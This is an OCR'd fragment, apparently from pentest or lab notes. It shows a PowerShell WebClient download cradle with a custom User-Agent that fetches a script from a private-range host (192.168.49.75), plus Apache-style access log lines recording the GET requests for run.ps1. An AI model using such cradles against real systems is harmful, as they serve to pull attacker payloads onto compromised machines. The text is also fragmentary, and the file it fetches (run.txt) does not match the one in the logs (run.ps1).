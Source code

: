 1
$wc = new-object system.net.WebClient
$wc.Headers.Add('User-Agent', "this is awsome")
$wc.DownloadString("http://192.168.49.75/run.txt")

192.168.75.12 - - [29/Nov/2021:02:14:19 -0500] "GET /run.ps1 HTTP/1.1" 200 4124 "-" "this is awsome""

2

192.168.49.75 - - [29/Nov/2021:02:37:03 -0500] "GET /run.ps1 HTTP/1.1" 200 4124 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/93.0.4577.82 Safari/537.36"
